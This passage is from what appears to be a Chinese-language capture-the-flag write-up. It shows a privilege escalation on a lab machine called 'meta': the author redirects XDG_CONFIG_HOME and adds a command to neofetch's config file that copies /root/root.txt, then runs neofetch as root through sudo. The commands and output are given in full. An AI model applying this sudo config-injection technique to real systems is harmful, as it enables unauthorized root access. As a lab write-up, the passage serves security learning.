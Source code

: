 因此，我们可以强制 neofetch 在特定的文件夹中查找配置文件。我们可以简单地这样做:

```
export XDG_CONFIG_HOME="$HOME/.config"

thomas@meta:~$ echo $XDG_CONFIG_HOME
/home/thomas/.config
```

# 根标志

现在，当我们以 root 用户身份运行 neofetch 时，它使用一个我们控制的配置文件。neofetch 是一个 bash 脚本，我们可以向它添加我们自己的命令。我只是在开头添加了一行，将 root.txt 文件复制到/dev/shm:

```
thomas@meta:~$ more .config/neofetch/config.conf
cp /root/root.txt /dev/shm/root.txt && chmod 777 /dev/shm/root.txt
# See this wiki page for more info:
# https://github.com/dylanaraps/neofetch/wiki/Customizing-Info
print_info() {
    info title
<SNIP>
```

以 root 用户身份运行 neofetch:

```
thomas@meta:~$ sudo -u root /usr/bin/neofetch \"\"
       _,met$$$$$gg.          root@meta 
    ,g$$$$$$$$$$$$$$$P.       --------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
 ,$$P'              `$$$.     Host: VMware Virtual Platform None 
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
`d$$'     ,$P"'   .    $$$    Uptime: 3 hours, 41 mins 
 $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
 $$;      Y$b._   _,d$P'      CPU: AMD EPYC 7302P 16- (2) @ 2.994GHz 
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter 
 `$$b      "-.__              Memory: 115MiB / 1994MiB 
  `Y$$
   `Y$$.
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""
```

检查根标志是否存在:

```
thomas@meta:~$ ls -lsa /dev/shm
total 16
0 drwxrwxrwt  2 root     root      120 Jan 23 16:43 .
0 drwxr-xr-x 16 root     root     3080 Jan 23 13:25 ..
4 -rw-r--r--  1 thomas   thomas     54 Jan 23 13:38 0wned
4 -rw-r--r--  1 thomas   thomas   2590 Jan 23 13:31 key
4 -rw-r--r--  1 www-data www-data  407 Jan 23 13:35 poc.svg
4 -rwxrwxrwx  1 root     root       33 Jan 23 16:53 root.txt
```
